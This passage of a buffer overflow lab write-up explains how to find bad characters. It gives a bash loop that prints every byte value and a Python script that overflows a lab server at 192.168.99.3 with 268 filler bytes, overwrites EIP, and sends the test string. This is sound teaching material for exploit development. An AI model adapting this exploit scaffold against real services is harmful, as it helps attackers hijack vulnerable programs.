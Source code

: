 Bad characters in the context of buffer overflow exploitation refers to the characters that cannot be used in the shellcode as they would interfere with the vulnerable program and most likely make it crash.

Although in this lab we did not have to deal with bad characters, below provided are some guidelines on the general process of how to identify bad characters and how to deal with them.

### Generate Bad Characters String

Generate a list of all possible bad characters using bash:

```bash
for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

...which results in the following:

```
x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

![String of characters for identifying bad characters](<../../../.gitbook/assets/image (830).png>)

### Testing for Bad Characters

Update the exploit to ensure it sends that string of bad characters as the payload:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"\x1b\xbd\x98\x77"
# 7798BD1B

# bad character testing payload
buf += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# send payload
sock.send(buf)
sock.close()
```